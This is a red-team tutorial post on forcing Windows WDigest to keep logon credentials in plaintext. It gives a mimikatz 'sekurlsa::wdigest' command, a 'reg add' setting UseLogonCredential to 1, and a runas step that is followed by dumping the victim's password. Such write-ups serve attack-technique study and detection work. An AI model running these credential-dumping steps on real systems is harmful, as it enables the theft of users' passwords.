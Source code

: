 ```yaml
---
layout: post
title: "forcing wdigest to store credentials in plaintext"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions.&#x20;

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode %}

Note the password field is null:

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_42\_39 PM.png>)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode %}

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_44\_54 PM.png>)

Say, now the victim on the target system spawned another shell:

{% code title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}
@spotheplanet
